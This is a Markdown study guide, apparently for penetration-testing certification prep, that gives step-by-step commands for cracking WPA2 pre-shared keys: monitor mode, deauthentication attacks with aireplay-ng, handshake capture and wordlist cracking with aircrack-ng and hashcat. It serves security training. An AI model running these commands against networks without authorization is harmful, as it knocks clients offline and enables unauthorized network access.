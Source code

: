# WPA2 PSK Cracking (PJPT Prep)

## The Hacking Process Overview

WPA2 PSK (Pre-Shared Key) cracking follows a systematic 6-step process:

1. **Place** - Put wireless card into monitor mode
2. **Discover** - Discover information about the network (Channel, BSSID)
3. **Select** - Select network and capture data
4. **Perform** - Perform deauth attack
5. **Capture** - Capture WPA handshake
6. **Attempt** - Attempt to crack the handshake

## Step-by-Step Process

### 1. Place - Put Wireless Card into Monitor Mode

First, identify your wireless interface and put it into monitor mode:

```bash
# Check wireless interfaces
iwconfig

# Kill processes that might interfere
sudo airmon-ng check kill

# Put interface into monitor mode
sudo airmon-ng start wlan0

# Verify monitor mode is active
iwconfig
```

Your interface should now show as `wlan0mon` or similar.

### 2. Discover - Network Information

Use `airodump-ng` to discover networks and gather information:

```bash
# Scan for networks
sudo airodump-ng wlan0mon
```

Look for:
- **BSSID** (MAC address of the access point)
- **Channel** number
- **ESSID** (network name)
- **Encryption** type (WPA2)
- **Connected clients** (stations)

### 3. Select - Target Network and Capture Data

Focus on a specific network and start capturing:

```bash
# Capture specific network
sudo airodump-ng -c [CHANNEL] --bssid [BSSID] -w capture wlan0mon
```

Example:
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

This will:
- Monitor channel 6
- Focus on the specific BSSID
- Save capture to files starting with "capture"

### 4. Perform - Deauth Attack

In a new terminal, perform a deauthentication attack to force clients to reconnect:

```bash
# Deauth all clients from the AP
sudo aireplay-ng -0 10 -a [BSSID] wlan0mon

# Deauth specific client
sudo aireplay-ng -0 10 -a [BSSID] -c [CLIENT_MAC] wlan0mon
```

Example:
```bash
# Deauth all clients
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth specific client
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
```

Parameters:
- `-0` = Deauthentication attack
- `10` = Number of deauth packets to send
- `-a` = Access Point BSSID
- `-c` = Client MAC address (optional)

### 5. Capture - WPA Handshake

Monitor the `airodump-ng` output for the handshake capture:

```
WPA handshake: AA:BB:CC:DD:EE:FF
```

When you see this message, the handshake has been captured successfully.

### 6. Attempt - Crack the Handshake

Use `aircrack-ng` or `hashcat` to crack the captured handshake:

#### Using aircrack-ng:
```bash
# Crack with wordlist
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# Crack specific network
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] capture-01.cap
```

#### Using hashcat (more efficient):
```bash
# Convert .cap to .hccapx format
cap2hccapx capture-01.cap capture.hccapx

# Crack with hashcat (mode 2500 for WPA/WPA2)
hashcat -m 2500 capture.hccapx /usr/share/wordlists/rockyou.txt

# For newer hashcat versions (mode 22000)
hcxpcapngtool -o capture.22000 capture-01.cap
hashcat -m 22000 capture.22000 /usr/share/wordlists/rockyou.txt
```

## Important Notes

### Prerequisites
- Wireless adapter capable of monitor mode and packet injection
- Target network must have connected clients
- Legal authorization to test the network

### Tips for Success
1. **Patience**: Wait for natural client connections if deauth doesn't work
2. **Multiple attempts**: Try different deauth techniques
3. **Good wordlists**: Use comprehensive wordlists like rockyou.txt
4. **Hardware**: Use a good wireless adapter (e.g., Alfa AWUS036ACS)

### Common Issues
- **No handshake captured**: Try different deauth methods or wait longer
- **Weak signal**: Get closer to the target network
- **No clients**: Some networks may not have active clients

## Legal and Ethical Considerations

⚠️ **WARNING**: Only perform these attacks on networks you own or have explicit written permission to test. Unauthorized access to wireless networks is illegal in most jurisdictions.

## Alternative Tools

### Wifite
Automated WPA2 cracking tool:
```bash
sudo wifite --wpa --dict /usr/share/wordlists/rockyou.txt
```

### Besside-ng
Another automated approach:
```bash
sudo besside-ng -c [CHANNEL] -b [BSSID] wlan0mon
```

## Summary
- WPA2 PSK cracking requires capturing the 4-way handshake
- Deauth attacks force clients to reconnect and expose the handshake
- Success depends on password strength and wordlist quality
- Always ensure you have proper authorization before testing 